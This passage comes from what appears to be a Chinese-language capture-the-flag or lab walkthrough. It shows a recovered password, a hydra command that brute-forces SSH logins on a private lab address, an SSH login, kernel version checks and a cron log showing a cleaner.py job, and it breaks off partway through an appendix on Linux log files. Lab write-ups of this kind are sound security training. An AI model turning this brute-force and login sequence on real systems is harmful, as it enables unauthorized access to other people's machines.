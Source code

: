 Pass.txt里面的内容：

```
Good_job_:)
```



# 3.getshell

把可能的用户名制作成字典  hydra爆破

 

```
hydra -L user.txt -P pass.txt ssh://192.168.81.141 -w 10
```



ssh连接服务器



```
ssh overflow@192.168.81.141 
#输入密码  Pass.txt登录
```

![image-20220304221234023](https://gitee.com/xxb667/img/raw/master/img/image-20220304221234023.png)

```
uname -a   #找到对应的版本
```



![](https://gitee.com/xxb667/img/raw/master/img/image-20220304221234023.png)

查看定时任务日志：

```shell
cat /var/log/cronlog
*/2 * * * * cleaner.py
```

![image-20220304223537250](https://gitee.com/xxb667/img/raw/master/img/image-20220304223537250.png)

附录：

```
1、/var/log/boot.log

记录了系统在引导过程中发生的事件，就是Linux系统开机自检过程显示的信息

2、/var/log/cron

与定时任务相关的日志信息

3、/var/log/lastlog

记录了系统上所有帐号最近一次登入系统时的相关信息。lastlog命令就是利用这个文件所记录的信息来显示结果

4、/var/log/maillog

记录邮件的来往信息，其实主要记录SMTP和POP3（IMAP）协议提供者所产生的信息

5、/var/log/messages or /var/log/syslog

记录了系统发生的所有错误信息（或者是重要的信息），所以这个文件相当重要；如果系统发生莫名的错误时，这个文件是必查的日志文件之一。（基于 Debian 的系统如 Ubuntu 在 /var/log/syslog 中存储它们，而基于 RedHat 的系统如 RHEL 或 CentOS 则在 /var/log/messages 中存储它们）

6、/var/log/secure
```